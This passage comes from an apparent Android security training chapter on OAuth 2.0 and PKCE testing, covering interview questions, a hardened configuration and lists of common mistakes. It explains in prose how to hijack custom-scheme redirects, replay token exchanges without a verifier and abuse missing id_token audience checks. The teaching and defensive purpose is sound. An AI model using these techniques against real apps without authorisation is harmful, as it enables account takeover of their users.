real app, and capture `code=` in logcat.

**Step 6 — impact.** Redeem the intercepted code, call `/api/v1/accounts` with the resulting token,
and receive the account list. Also note `payments.initiate` in the scope set, which the app's UI does
not appear to use — a second finding.

**The report contains three findings**, in this order:

| # | Finding | Severity | Evidence |
|---|---|---|---|
| 1 | PKCE not enforced at the token endpoint; authorisation code interception yields account takeover | Critical | `curl` transcripts A and B; logcat from the hijacker; `/api/v1/accounts` response |
| 2 | Redirect URI uses an unverifiable custom scheme rather than a verified App Link | Medium (High without #1's fix) | Manifest excerpt; `cmd package query-activities` output showing two handlers |
| 3 | Over-scoped grant: `payments.initiate` requested but unused | Medium | Scope table; feature walk-through |

Note that finding 2 alone would be Low. It is the *combination* that is Critical, and structuring the
report this way lets the client fix one thing (server-side PKCE enforcement) and immediately drop the
risk, while still understanding why the redirect should also change.

### 9.5 Enterprise — a hardened deployment and how to review it

An enterprise-grade Android OAuth deployment looks like this, and reviewing it means confirming each
row rather than hunting for a single bug:

```kotlin
// Android / Kotlin — examples/05-enterprise/HardenedAuth.kt (excerpt)
private fun buildRequest(config: AuthorizationServiceConfiguration): AuthorizationRequest =
    AuthorizationRequest.Builder(
        config,
        BuildConfig.OAUTH_CLIENT_ID,
        ResponseTypeValues.CODE,
        Uri.parse("https://login.corp.example.com/android/callback")   // verified App Link
    )
        .setScopes("openid", "profile")                     // least privilege at login;
                                                            // step up with a second flow when needed
        .setNonce(SecureRandomString.generate(32))
        .setCodeVerifier(AppAuthPkce.newVerifier())         // S256 always
        .setPrompt(AuthorizationRequest.Prompt.LOGIN)       // no silent SSO for a banking session
        .setAdditionalParameters(mapOf(
            "acr_values" to "urn:mace:incommon:iap:silver", // require a given assurance level
            "max_age"    to "300"                           // re-authenticate if older than 5 min
        ))
        .build()
```

| Control | Enterprise expectation | How you verify it |
|---|---|---|
| Grant | Authorisation code + PKCE S256 only | Discovery document + captured request |
| PKCE enforcement | Server rejects a missing/incorrect verifier | Variants B and C in [7.5](#75-the-single-most-important-test-pkce-enforcement) |
| Redirect | Verified App Link, `pm get-app-links` shows `verified` | `adb shell pm get-app-links` |
| PAR | `require_pushed_authorization_requests: true` | Discovery |
| Sender constraining | DPoP or mTLS-bound tokens | Look for a `DPoP` header on `/token` and API calls |
| Token lifetime | Access token minutes; refresh rotated with reuse detection | The rotation test in [3.8](#38-grant-type-7--refresh-token) |
| Step-up auth | `acr_values` / `max_age` on sensitive operations | Trigger a transfer and watch for a second `/authorize` |
| Logout | `/revoke` called and effective | The post-logout replay in [7.9](#79-post-flow-checks) |
| Storage | Keystore-wrapped, not plaintext prefs | [46-Tokens](../46-Tokens/README.md) |
| Device binding | Attestation or DPoP key in the Keystore | [49-KeyStore](../49-KeyStore/README.md), [50-HardwareBackedSecurity](../50-HardwareBackedSecurity/README.md) |
| MDM interaction | Managed configuration supplies the tenant/issuer | `dumpsys device_policy`, `RestrictionsManager` usage |

Reviewing an enterprise deployment is mostly a **conformance** exercise, and the value you add is
finding the one row that was assumed rather than implemented. In practice that row is most often
"logout revokes server-side" or "refresh reuse is detected".

---

## 10. Common Interview Questions

The questions below are the ones that actually get asked, arranged by the level they are asked at.
Each has a model answer. Read the answer as a *shape* rather than a script — an interviewer is
listening for whether you understand the mechanism, not whether you can recite RFC section numbers.

### Beginner

**Q: In one sentence, what problem does OAuth 2.0 solve?**

It lets a user grant an application limited, revocable access to their data at another service
**without giving that application their password**. Before OAuth, "connect your bank" meant handing
your banking password to a third party, which gave that party unlimited, unrevocable, undetectable
access forever.

**Q: Name the four OAuth roles and say what each one is.**

The **resource owner** is the human being who owns the data. The **client** is the application asking
for access — on Android, the app on the phone. The **authorization server (AS)** is the system that
authenticates the user and issues tokens. The **resource server** is the API that holds the data and
accepts the token. A common confusion is collapsing the AS and the resource server into "the server";
they are frequently different systems run by different teams, and several attacks live in the gap
between them.

**Q: What is the difference between authentication and authorisation, and which one is OAuth?**

Authentication answers "who is this?". Authorisation answers "what may they do?". **OAuth 2.0 is an
authorisation protocol.** It was not designed to tell a client who the user is. OpenID Connect is the
layer added on top to do authentication properly, and it signals itself by the presence of the
`openid` scope and the return of an `id_token`. Systems that use raw OAuth for login — "I got an
access token back, therefore the user is who they claim" — are the source of an entire family of
account-takeover bugs.

**Q: What is an authorisation code, and why is it not just a token?**

The authorisation code is a short-lived, single-use, opaque string that the authorisation server
hands back through the browser redirect. It is not a credential for any API. It is a **claim ticket**
that the client redeems at the token endpoint, over a direct back-channel HTTPS request, for the
actual tokens. The split exists so that the thing travelling through the browser — the least
trustworthy channel, where URLs land in history, logs and `Referer` headers — is not itself usable.

**Q: What is a redirect URI and why does the authorisation server care about it?**

It is the address the authorisation server sends the user's browser back to, carrying the
authorisation code. The AS must have it registered in advance and must match it against the
registered value on **both** the `/authorize` request and the `/token` request, because the redirect
URI is the *only* thing determining where the code is delivered. If an attacker can influence it,
they can have the code delivered to themselves.

### Intermediate

**Q: Why can an Android app not hold a client secret? Walk me through the consequences.**

Because everything the app needs to run is on the user's device, and the user — or anyone with the
APK — can read all of it. A secret in `strings.xml`, in `BuildConfig`, in a `.so` file, in an
obfuscated string decryptor, or assembled at runtime from four fragments is all the same secret: it
is present in a file that anyone can download from Google Play and unzip, and present in memory that
anyone with Frida can read. Extraction is a matter of minutes to hours, not of feasibility. A "secret"
that ships to a million devices is a published value.

The consequences cascade through every other design decision, and this is the part interviewers are
listening for:

| Consequence | Because |
|---|---|
| The app is a **public client** in OAuth's terms | It cannot authenticate itself to the AS |
| The **client credentials grant is unavailable** | It requires a secret |
| **ROPC is unavailable** and unacceptable | It also requires a secret, and it defeats the point of OAuth |
| **PKCE becomes mandatory**, not optional | It is the replacement for the client secret in binding the token exchange to the requester |
| `client_id` is an **identifier, not a credential** | Anyone may send it; it grants nothing on its own |
| The **redirect URI becomes the primary trust anchor** | It is the only thing tying the flow to the right app, which is why its verification matters so much |
| Anything genuinely secret must live **server-side** | A backend-for-frontend, not the app |

> **🧠 Mental Model**
> "Can this app keep a secret?" is the single question from which the whole of mobile OAuth design
> follows. The answer is no. Every correct design choice in this chapter is a consequence of that no.

**Q: What attack does PKCE stop, and how?**

**Authorisation code interception.** The client generates a fresh random `code_verifier` per request
and sends only `code_challenge = BASE64URL(SHA256(ASCII(verifier)))` through the browser. The AS
stores the challenge against the session. When the client redeems the code, it presents the verifier
over the back channel; the AS re-hashes it and compares. An attacker who steals the code from the
redirect — by registering the same custom scheme, by reading a log, by reading browser history — has
a code but not the verifier, so the exchange fails. PKCE converts a stolen code into a worthless
string.

**Q: `S256` versus `plain` — what is the difference and does it matter?**

With `S256` the challenge is a SHA-256 hash of the verifier, so an attacker who sees the front
channel learns nothing usable. With `plain` the challenge **is** the verifier, sent in clear text
through exactly the channel PKCE was invented to protect. `plain` exists in RFC 7636 only for clients
that genuinely cannot compute SHA-256, and the RFC says servers must implement S256 and clients must
use it when able. Practically, `plain` protects only against an attacker who can read the
`/authorize` response but not the request — a threat model that barely exists.

The second-order point matters more to a tester: a server that *accepts* `plain` accepts a
**downgrade**. If the app sends `S256` but the server honours a rewritten request with
`code_challenge_method=plain` and a challenge you chose, PKCE is defeated regardless of what the app
does.

**Q: The app sends `code_challenge=...&code_challenge_method=S256`. Is PKCE implemented?**

The **client** implements PKCE. That is all you have shown. This is the single most important
distinction in the chapter.

PKCE's entire security value lives in the server's willingness to **refuse** a token request that
does not present a matching verifier. The client cannot enforce that, cannot detect it, and cannot
fix it. Only a tester with a captured code can determine it. **The finding is never "no PKCE"; the
finding is "PKCE is not enforced."**

The test is three `curl` requests, each against a fresh code: variant A with the correct verifier as
a control (must succeed), variant B with the verifier removed entirely (must return
`400 invalid_grant`), and variant C with a wrong verifier (must also return `400 invalid_grant`). If
B or C returns tokens, you have a Critical finding: any app on the device that can intercept the
redirect achieves full account takeover, and the client-side code looks perfect while it happens.

**Q: Why is using a `WebView` for the authorisation flow a finding in itself?**

Because it puts the user's **identity-provider credential inside the client's trust boundary**. A
`WebView` is a view inside the app's own process. The hosting app can call `evaluateJavascript` on
the login page and read the password field's value directly; it can read every request body through
`WebViewClient.shouldInterceptRequest`; it can read the IdP's session cookie through `CookieManager`;
and it can inject arbitrary JavaScript into the IdP's origin. It also shows the user **no address
bar**, so a pixel-perfect fake login page is indistinguishable from the real one.

Note carefully how to phrase the finding. It is not "the app steals the password" — usually it does
not. It is "the architecture makes credential theft possible and undetectable, and defeats the
purpose of federated authentication." RFC 8252 §8.12 says embedded user agents must not be used, for
exactly these reasons.

**Q: So what is the correct pattern?**

An **external user agent**: a Custom Tab, or failing that a plain `ACTION_VIEW` to the default
browser. A Custom Tab is an activity in the **browser's** process, under the **browser's UID**, with
the browser's cookie jar. Three properties follow at once. The app cannot read the DOM, the cookies
or the typed password, because the app sandbox enforces it. Single sign-on works, because the browser
cookie jar is shared. And the user can see the origin and the padlock, so phishing becomes
detectable. The product team keeps the toolbar colour, the close icon and connection pre-warming,
which is most of what they actually wanted.

For the **return** leg, the correct pattern is a **verified Android App Link** — an
`https://` redirect URI whose host publishes an `assetlinks.json` naming your package and signing
certificate — rather than a custom scheme. That makes the redirect exclusively yours, enforced by the
platform.

**Q: What is `state` and what does it protect against?**

`state` is an opaque, unguessable, per-request value the client sends on `/authorize` and the AS
echoes on the redirect. The client compares the returned value against the one it stored and rejects
a mismatch. It protects against **CSRF on the redirect**: an attacker completes their own
authorisation flow, captures the resulting code, and then induces the victim's app to consume it, so
that the victim's app ends up holding the *attacker's* tokens. Everything the victim then does — save
a document, upload a photo, add a card — happens in the attacker's account, where the attacker can
read it. `state` breaks the attack because the injected callback carries a `state` the victim's app
never issued.

It has a second, purely practical use: it is where a client stores which flow this callback belongs
to, so that a multi-account or multi-provider app can route the response correctly.

### Senior

**Q: Explain custom-scheme hijacking on Android, mechanically, down to the platform component that
permits it.**

A custom scheme redirect such as `exampleapp://oauth/callback` is claimed by an `intent-filter` with
`<data android:scheme="exampleapp" />`. Android imposes **no uniqueness constraint on schemes**.
`IntentFilter.matchData` in `frameworks/base/core/java/android/content/IntentFilter.java` compares
the scheme, host, port and path of the incoming URI against the filter's declarations; it has no
notion of ownership, no registry, and no first-claim priority. Any app may declare any scheme.

So a malicious app installs an `intent-filter` for the same scheme. When the browser fires the
redirect, the platform resolves it and finds two matching activities. What happens next depends on
the situation: with two handlers the user may see a disambiguation dialog — which most users tap
through without reading — and if the user has previously chosen "always" for the attacker's app, or
if the attacker's app is the only one that survives some particular resolution ordering, no dialog
appears at all. The malicious activity receives the `Intent`, reads `getIntent().getData()`, and has
the authorisation code.

The correct mitigations, in order: use a **verified App Link** so the platform enforces exclusivity
via `assetlinks.json` over HTTPS; and ensure the AS **enforces PKCE**, so a stolen code is inert.
Note that these are independent controls at different layers, and the second is the one that turns a
successful interception into a non-event.

> **🔍 Pentester's Note**
> The evidence for this finding is two commands. Before installing your hijacker,
> `adb shell cmd package query-activities -a android.intent.action.VIEW -d "exampleapp://oauth/callback"`
> lists one activity. After installing it, the same command lists two. That output plus a logcat line
> containing `code=` is the whole proof of interception.

**Q: An app implements PKCE correctly, uses a Custom Tab, and validates `state`. Is the OAuth
implementation secure?**

Not established. Those three facts are about the client, and a competent review has at least four
more axes.

First, **PKCE enforcement at the server** — untested, and the client cannot demonstrate it. Second,
**redirect URI exclusivity** — a custom scheme is claimable, an App Link is not, and
`adb shell pm get-app-links <pkg>` tells you which you have. Third, **what happens to the tokens
after the exchange** — plaintext `SharedPreferences` is still the most common outcome and belongs to
[46-Tokens](../46-Tokens/README.md). Fourth, **the server side of the identity story**: whether
`id_token` audience is checked, whether logout revokes server-side, whether refresh tokens rotate
with reuse detection, and whether scope can be widened on refresh.

The general answer an interviewer wants is: client-side correctness is necessary and not sufficient,
because every client-side control is enforced somewhere the attacker controls or somewhere else
entirely. Name the enforcement point for each control.

**Q: Walk me through validating an `id_token`. What gets skipped, and what does skipping it cost?**

The full algorithm from OIDC Core §3.1.3.7: parse into exactly three base64url segments; check the
`alg` against **your own allow-list**, never trusting the token's self-declared algorithm; fetch the
issuer's JWKS over TLS from the discovery document and select the key by `kid`; verify the signature;
check `iss` equals the exact expected issuer; check `aud` contains your `client_id` (and `azp` equals
it when there are multiple audiences); check `exp` against now with a small skew allowance; check
`iat`/`nbf` are sane; compare `nonce` against the one you generated; and evaluate `acr`, `amr` and
`auth_time` against your policy. Then key the user on **`sub`**, not `email`.

Two steps get skipped, and both are fatal.

*Signature verification.* The backend base64-decodes the payload, reads `email`, and issues a session.
An attacker forges any identity with a text editor and `base64`. No cryptography required.

*Audience checking.* This one is more elegant and just as fatal. The backend verifies the Google
signature correctly, but never checks `aud`. The attacker registers their own trivial app — a game, a
wallpaper app — with the same identity provider, gets the victim to sign into *that*, receives a
**genuinely Google-signed** `id_token` for the victim's identity, and replays it to the target's
`/api/v1/social-login`. Every signature check passes. `aud` is the only field that would have caught
it, because it names the client the token was minted for. This is the classic "Sign in with X"
backend flaw and it has been found in a very large number of real applications.

**Q: `state` versus `nonce`. Why do both exist?**

They protect different things at different layers with different integrity properties.

| | `state` | `nonce` |
|---|---|---|
| Layer | OAuth 2.0 | OpenID Connect |
| Returned inside | The redirect URI, as a query parameter | The `id_token` payload, inside the signature |
| Protects against | CSRF on the redirect — an attacker's code injected into the victim's session | ID token replay — a token obtained elsewhere injected into your flow |
| Integrity protected | No; an attacker who rewrites the redirect can rewrite it | **Yes**; changing it breaks the signature |

Because `nonce` sits inside the signature, it is the only mechanism that binds a specific `id_token`
to a specific authorisation request in a way the attacker cannot forge. `state` sits in the URL,
where the attacker who controls the redirect can rewrite it — which is why `state` protects against
CSRF but not against a party who owns the redirect channel outright.

**Q: You are told "the app is fine, it uses a well-known SDK." How do you respond?**

By testing rather than arguing. A good SDK — AppAuth-Android is the reference — makes the *client*
correct by default, and AppAuth in particular refuses to run the flow in a `WebView` at all. But an
SDK cannot make the server enforce PKCE, cannot verify that the redirect is a verified App Link,
cannot check whether the backend validates `aud`, and cannot stop the app writing the resulting
tokens to plaintext preferences. It also cannot stop the integrating developer from disabling its
protections: passing a fixed verifier, omitting `state`, or bypassing the library for one "quick"
flow. Capture the traffic and check the actual bytes on the wire.

**Q: How does mobile OAuth interact with certificate pinning and with your ability to test at all?**

The token exchange is a back-channel HTTPS call from the app, so intercepting it requires your CA in
the app's trust store, which since API 24 means a `network_security_config` that trusts user CAs — or
a bypass. See [35-SSL](../35-SSL/README.md) and
[44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md). The `/authorize` leg is different:
it happens in the **browser's** process, so pinning in the app is irrelevant to it and you configure
the proxy for the browser instead. That asymmetry surprises people and is worth stating in an
interview: the two halves of the flow run in two different processes with two different trust
configurations, and you may need two different interception strategies for one login.

### Staff Engineer

**Q: Design the OAuth architecture for a banking app that must support SSO, biometric re-auth, and
step-up authentication for transfers. Justify each choice.**

A strong answer names the choice, the reason, and the enforcement point.

| Choice | Reason | Enforced where |
|---|---|---|
| Authorisation code + PKCE `S256`, no other grant | The only grant appropriate to a public client; the AS must reject all others for this `client_id` | Authorisation server configuration |
| Custom Tab, never a `WebView` | Keeps the IdP credential outside the app's trust boundary | Code review and a Frida hook on `WebView.loadUrl` |
| Verified App Link redirect, no custom scheme | Exclusivity is enforced by the platform via `assetlinks.json`, not by convention | `adb shell pm get-app-links` shows `verified` |
| PAR (RFC 9126) | Removes request parameters from the front channel entirely, so there is nothing in the URL to tamper with | Discovery: `require_pushed_authorization_requests: true` |
| DPoP (RFC 9449) or mTLS-bound tokens | Sender-constrains the token, so a stolen bearer token is unusable without the proof key | A `DPoP` header on `/token` and on API calls |
| Proof key in the Android Keystore, StrongBox where present | The key cannot be exfiltrated even from a rooted device, because it never enters the process | [49-KeyStore](../49-KeyStore/README.md), [50-HardwareBackedSecurity](../50-HardwareBackedSecurity/README.md) |
| Short access tokens, rotating refresh tokens with reuse detection | Bounds the damage window and turns a stolen refresh token into a detected incident | Server; test by replaying an old refresh token |
| `acr_values` and `max_age` on transfer initiation | Step-up: forces a fresh, stronger authentication for the sensitive action rather than trusting the session | A second `/authorize` observable in the proxy |
| Least-privilege scopes at login, widened only per operation | Bounds blast radius if tokens leak | The scope-to-feature table in the report |
| Server-side revocation on logout | Client-side logout is not logout | `curl` the API after logging out |

The framing that separates a staff-level answer: **biometrics are a local gate, not an
authentication factor to the server.** A biometric prompt unlocks a Keystore key; the *server* sees
the resulting signed proof, not the fingerprint. An architecture where the app decides locally that
biometrics succeeded and then simply uses a stored token has a client-side authorisation check, and
it is bypassed with a one-line Frida hook. The Keystore binding is what makes it real.

**Q: You find that PKCE is not enforced, but the app uses a verified App Link so the redirect cannot
be hijacked by a competing app. How do you rate and report it?**

Rate the *combination*, and report the components separately so they can be fixed independently.

The App Link removes the highest-probability exploitation path on the device, so the immediate
severity is lower than a custom-scheme case — this is honest and the client will respect it. But
non-enforcement is still a genuine flaw, because the App Link is not the only way a code leaks: codes
appear in browser history, in `Referer` headers when the redirect target loads third-party content,
in server access logs, in crash reports and in screen recordings; App Link verification can fail
silently if the domain's `assetlinks.json` becomes unreachable, at which point the platform falls
back to disambiguation; and a future change to the redirect strategy silently re-arms the full
attack. Report it as a **High** with the caveat stated explicitly, note that the fix is a single
server configuration flag, and be clear that the App Link is what is currently holding the line
rather than the token endpoint.

Being able to say "here is why this is not Critical *today*" is what makes a report credible when you
say something else is.

**Q: How would you build automated detection for this class of bug across a portfolio of 200 apps?**

Layer it, and be explicit about what each layer cannot do.

Statically, parse each manifest for `intent-filter` schemes that are not `http`/`https` and are
reachable from an OAuth callback activity, and flag them; scan the DEX for `WebView.loadUrl` calls
whose argument reaches an authorisation endpoint; look for the grant type in string constants
(`grant_type=password`, `response_type=token`); and diff against a policy allow-list. This finds
client-side smells cheaply and finds nothing about the server.

Dynamically, drive the login with a UI automation harness through a proxy, and assert on the captured
`/authorize` request: `state` present and high-entropy, `code_challenge_method=S256`, `redirect_uri`
scheme is `https`, scope within policy. This finds real behaviour, including behaviour that
obfuscation hides.

Server-side, run the enforcement probe against each authorisation server in a controlled environment
with a test account: capture a code and attempt the exchange without a verifier. **This is the layer
that finds the Critical bug, and it is the layer nobody automates**, because it needs a live code and
consumes a test account's session. Automating it is the highest-value engineering investment in the
whole programme.

Finally, poll every `.well-known/openid-configuration` you depend on and alert on drift:
`grant_types_supported` gaining `password`, `code_challenge_methods_supported` gaining `plain`,
`id_token_signing_alg_values_supported` gaining `none`. Configuration regresses, and this is a cheap
watchdog.

**Q: What is the security argument for and against a backend-for-frontend that holds the tokens?**

For: the refresh token — the long-lived, high-value credential — never touches the device, so device
compromise, backup extraction and malware on the phone cannot yield persistent access. The BFF is a
confidential client, so it *can* hold a real client secret, restoring a control mobile gave up. The
BFF can enforce fine-grained policy, log every API call centrally, and revoke instantly. Token
storage on the device reduces to a short-lived session cookie or opaque session identifier.

Against: it centralises a very attractive target, and a BFF compromise is a compromise of every
user's tokens simultaneously rather than one device at a time. It adds a hop of latency and an
availability dependency to every call. It re-creates session management — with all its own
vulnerability classes — that OAuth had pushed to the IdP. And it can turn into an unauthenticated
proxy if the BFF's own session handling is weak, which converts "steal one device's token" into
"forge a session and use anyone's".

The honest conclusion: a BFF is usually right for high-value applications, and the decision hinges on
whether the organisation can operate the BFF to a higher standard than it can secure a phone. Most
banks can. Most consumer apps cannot, and are better served by PKCE, App Links, rotating refresh
tokens and Keystore-bound storage.

### Principal Engineer

**Q: OAuth 2.0 pushed security decisions from the protocol into deployment configuration. Evaluate
that.**

The framing to argue with is that OAuth 2.0 is not one protocol but a **framework** of composable
choices — grant types, token formats, client authentication methods, optional parameters — and that
this was deliberate. It let OAuth cover cases from a JavaScript widget to a bank's mobile app to a
smart TV, and that generality is genuinely why it won. OAuth 1.0's rigid, signature-based approach
was more secure by construction and lost, because it was too painful to implement.

The cost is that **security became a deployment property rather than a protocol property**, and
deployments are configured by people under schedule pressure. The result is the entire content of
this chapter: implicit grant shipped for a decade because it was in the spec; ROPC still exists
because it is easy; PKCE is optional at the server so servers do not enforce it; `state` is a
"should" so it is omitted. Every one of these is a correctly-implemented OAuth 2.0 deployment that is
insecure. That is a damning property for a security framework.

The industry's correction is instructive and worth naming: OAuth 2.1 exists precisely to remove
choices — it folds in PKCE as mandatory, deletes implicit and ROPC, and requires exact redirect URI
matching. The FAPI profiles do the same for finance. RFC 8252 does it for native apps. The pattern is
**profiles that subtract options**, which is an admission that the extensibility was over-supplied.

A principal-level answer closes with the general lesson: a security framework whose secure
configuration is not its default configuration will be deployed insecurely at scale, and no amount of
documentation fixes that. Defaults are the real specification. Applied to your own systems, that
means the mechanism you offer teams should have the safe path be the *easy* path, and the unsafe path
should require deliberate effort and produce a visible artefact — a config flag someone must
explicitly set and that shows up in review.

**Q: Bearer tokens are the fundamental weakness of OAuth 2.0. Do you agree? What would you replace
them with?**

Largely agree, and the reason is precise: a bearer token confers authority on **whoever presents
it**, so its security reduces entirely to keeping a string secret across every system that touches
it — the device, the network, logs, crash reporters, proxies, browser history, backups and the
developer's terminal. Every one of those is a leak point, and the failure mode is total and silent:
there is nothing in a replayed request that distinguishes it from a legitimate one.

The replacement is **sender-constrained tokens**, where possession of the token is insufficient
without proof of possession of a key. mTLS-bound tokens (RFC 8705) bind to the TLS client
certificate. **DPoP (RFC 9449)** binds to an application-layer key: the client signs a JWT proof over
the method, URI and a timestamp for every request, and the AS binds the access token to that key's
thumbprint. On Android this composes very well with the Keystore, because the DPoP key can be
generated with `setIsStrongBoxBacked` and marked non-exportable, which means the key material never
enters the app's address space and cannot be extracted even by an attacker with full code execution
on a rooted device. A stolen DPoP-bound access token is then genuinely useless off-device, which is
the property bearer tokens can never have.

The honest costs: DPoP adds a signature to every request, needs clock skew handling and replay
protection at the server, and complicates every proxy, gateway and load balancer in the path.
Adoption is therefore slow, and slow adoption is not a technical problem but an ecosystem one.

The wider point worth making: the industry keeps re-learning that **capability strings are fragile
because they are copyable**, and the durable fix is always the same shape — bind the capability to
something that cannot be copied, and keep that thing outside the attacker's reach. It is the same
reasoning that puts key material in the Keystore rather than in the process, and the same reasoning
that says client-side integrity checks buy time rather than security.

**Q: A client-side control can only ever be a hint. What follows for how you design and how you
report?**

It follows that for every control you must name **where it is enforced**, and that any control
enforced inside a process the attacker owns is a usability feature, not a security boundary. PKCE in
the client is a hint; PKCE at the token endpoint is the control. Scope selection in the client is a
hint; scope validation at the AS is the control. A biometric prompt is a hint; a Keystore key that
required biometric authentication to use, whose signature the server verifies, is the control. A
disabled "transfer" button is a hint; the server's refusal is the control.

For design, this produces a discipline: draw the trust boundary first, then for each requirement ask
which side of it the enforcement sits on. Anything on the wrong side must be duplicated on the right
side, and the client-side copy is then explicitly labelled as UX rather than security — which stops
it from being mistaken for a control in the next review.

For reporting, it changes what you write. "The app does not implement PKCE" is a client observation
of limited value. "The authorisation server issues tokens for an authorisation code presented without
a `code_verifier`, so an authorisation code intercepted by any installed application yields full
account takeover" is a server finding with an impact statement, and it is the one that gets fixed. It
also explains why so many mobile OAuth reports are rejected: they report client-side hints as
findings, the developer correctly observes that the client is not where the decision is made, and the
report is closed. Test the enforcement point, always.

---

## 11. Common Mistakes

### Developer mistakes

- **Shipping the ROPC (password) grant** because "the login screen looks better in our app". This
  hands the app the user's identity-provider password, destroys the single benefit OAuth provides,
  and cannot support MFA or federated identity. It is deprecated in OAuth 2.1 and it is a finding
  every time.
- **Shipping the implicit grant** (`response_type=token`), which returns the access token in the URL
  fragment where it lands in history, logs and `Referer` headers, and which never supported refresh
  tokens sensibly. It was a workaround for browser CORS restrictions that no longer exist.
- **Embedding a client secret in the APK** — in `strings.xml`, in `BuildConfig`, in a native library,
  or split into fragments and reassembled at runtime. All variants are equivalent: the secret is
  published. Worse, its presence usually indicates the app is using a grant that should not be
  available to it at all.
- **Running the flow in a `WebView`** so the login screen can be styled. This places the user's IdP
  credential inside the app's trust boundary, breaks SSO, removes the address bar the user needs to
  detect phishing, and violates RFC 8252 §8.12.
- **Omitting `state`**, leaving the redirect open to CSRF, in which the victim's app ends up holding
  the attacker's tokens and quietly writes the victim's data into the attacker's account.
- **Generating `state` or `code_verifier` from `Random`, `System.currentTimeMillis()`, or a UUID
  derived from device identifiers** rather than `SecureRandom`. A predictable nonce is not a nonce.
- **Using a custom URI scheme for the redirect** and believing it belongs to the app. It does not;
  Android enforces no uniqueness. Use a verified App Link.
- **Not validating the returned `state`** even though it was sent. Sending a nonce and never
  comparing it is the most common way a control becomes decoration.
- **Not validating `nonce` inside the `id_token`**, for the same reason.
- **Sending the `id_token` to a resource server as a bearer credential.** It is an identity assertion
  for the client, not an authorisation credential for an API.
- **Accepting an `id_token` at the backend without verifying the signature, `iss`, `aud` and `exp`** —
  the single most damaging OAuth-adjacent bug in production systems, and the reason "Sign in with X"
  integrations get taken over.
- **Keying accounts on `email` rather than `sub`.** `email` is mutable, re-assignable and sometimes
  unverified; `sub` is the issuer's stable identifier.
- **Over-scoping at login** — requesting `payments.write` for an app that only displays a balance —
  which converts any future token leak into a far more serious incident.
- **Storing tokens in plaintext `SharedPreferences`**, or in a file marked
  `android:allowBackup="true"`, both of which put a refresh token somewhere it can be extracted.
- **Client-side-only logout**: clearing the local token without calling the revocation endpoint, so
  the refresh token remains valid indefinitely after the user believes they have logged out.
- **Never rotating refresh tokens**, or rotating them without reuse detection, which throws away the
  one signal that would reveal a stolen token.
- **Assuming the SDK made it safe.** AppAuth makes the *client* correct. It cannot make the server
  enforce PKCE, verify your App Link, validate your backend's `aud` check, or encrypt your storage.

### Pentester mistakes

- **Testing that PKCE is present and stopping there.** This is the defining mistake of the chapter.
  The presence of `code_challenge` in the authorisation request is a client-side observation with
  almost no security value on its own.
- **Reporting "PKCE not implemented" without checking whether the server cares.** If the AS ignores
  PKCE entirely, the client's use of it was never protecting anything, and the finding is on the
  server. Conversely, if the AS *requires* it and the client sends it, "no PKCE" was never true.
- **Testing the enforcement variants with a re-used authorisation code.** A correct server burns the
  code on first presentation regardless of outcome, so variant B fails for the wrong reason and you
  record a false pass. Every variant needs a fresh code, and the control (variant A) must be run to
  prove the code was live.
- **Assuming a custom scheme is exclusive to the app.** It never is. Two minutes and a competing test
  app converts an assumption into evidence.
- **Not checking whether the redirect is a *verified* App Link.** Declaring
  `android:autoVerify="true"` is not verification; `adb shell pm get-app-links <pkg>` tells you
  whether the platform actually verified it, and a failed verification silently downgrades the app to
  disambiguation.
- **Proxying only the app and missing the `/authorize` leg**, which runs in the browser's process
  under a different trust configuration. Half the flow is invisible until the browser is configured
  too.
- **Only testing the happy path.** The interesting responses come from tampering: a modified
  `redirect_uri`, a downgraded `code_challenge_method`, a widened `scope` on refresh, a replayed
  code, a token used after logout.
- **Not fetching `.well-known/openid-configuration`.** One request tells you whether ROPC is enabled
  server-wide, whether implicit is still supported, whether `plain` is accepted, and whether `none`
  is an accepted signing algorithm. It is the cheapest evidence in the chapter.
- **Reporting an over-broad scope without demonstrating it is unused.** Strip it, show the app still
  works, and the finding becomes undeniable.
- **Confusing `id_token` and `access_token` in the report**, which destroys credibility instantly
  with anyone who understands the protocol.
- **Ignoring what happens after the flow** — where the tokens landed, whether logout revokes, whether
  the refresh token survives a password change. Those are frequently the highest-impact findings and
  they live at the boundary with [46-Tokens](../46-Tokens/README.md) and
  [47-Authentication](../47-Authentication/README.md).
- **Rating a scheme-hijack finding as Critical without checking PKCE enforcement, or as Low because
  PKCE is present without testing enforcement.** The severity is a property of the *combination*, and
  getting this wrong in either direction is how a report loses its audience.

### Reverse engineer mistakes

- **Searching only for the string `oauth`.** The values that matter are `code_challenge`,
  `code_verifier`, `grant_type`, `response_type`, `client_secret`, `redirect_uri`, `/authorize` and
  `/token`, and the endpoints are frequently assembled from fragments or built by a Retrofit
  interface where no full URL string exists.
- **Assuming R8/ProGuard removed the evidence.** Obfuscation renames classes and methods; it does not
  rename the **protocol parameter names**, because those are sent on the wire and must be exact. The
  string `code_challenge_method` survives every obfuscator, and it is the anchor from which you find
  everything else.
- **Not looking in the native library.** Cross-platform apps built with Flutter, React Native, Unity
  or Xamarin often perform the entire flow outside the DEX, and a clean-looking `sources/` tree means
  nothing until `libflutter.so`, `index.android.bundle` or the assemblies have been checked.
- **Reading the decompiled flow and concluding what runs**, when the app selects a grant at runtime
  from a server-supplied feature flag. Only the wire tells you which path executed.
- **Missing the manifest as the fastest source of truth.** The redirect scheme, the callback
  activity, `autoVerify`, `allowBackup` and the network security config reference are all there
  before any decompilation.
- **Treating the discovery document's cached copy in the app's assets as authoritative.** Apps ship
  a bundled `openid-configuration` and then refresh it; the live document is what the server actually
  offers.
- **Dismissing a `WebView` finding because AppAuth is also present.** Apps commonly use AppAuth for
  the main flow and a hand-rolled `WebView` flow for one partner integration or one legacy path. The
  presence of a correct implementation does not exclude an incorrect one; enumerate every entry point.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/). Work them in order — each builds the evidence the next
one needs.

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Intercept and decode a full flow](labs/lab-01-intercept-the-flow.md) | Capture an authorisation-code + PKCE login end to end in Burp, decode every parameter of the `/authorize` request and the `/token` response, and produce a parameter inventory table | Beginner |
| [Lab 02 — Test PKCE *enforcement*](labs/lab-02-pkce-enforcement.md) | Extract a live code and verifier with Frida, then replay the token exchange with the verifier removed, wrong, downgraded and reused; interpret all five variants | Intermediate |
| [Lab 03 — Scheme hijacking with a competing app](labs/lab-03-scheme-hijack.md) | Build and install an app that registers the target's redirect scheme, intercept a real authorisation code, and then chain it with Lab 02 to demonstrate account takeover | Advanced |
